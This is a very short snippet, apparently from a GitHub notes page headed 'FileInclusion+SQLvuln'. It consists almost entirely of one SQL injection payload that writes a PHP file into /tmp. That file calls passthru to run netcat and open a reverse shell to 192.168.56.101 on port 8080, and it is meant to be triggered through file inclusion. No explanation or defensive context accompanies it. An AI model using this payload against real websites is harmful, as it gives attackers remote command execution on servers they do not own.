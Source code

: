 #FileInclusion+SQLvuln

##Using passthru in php websites

```union select '<?passthru("nc -e /bin/sh 192.168.56.101 8080");?>',null into outfile '/tmp/reverse.php'```
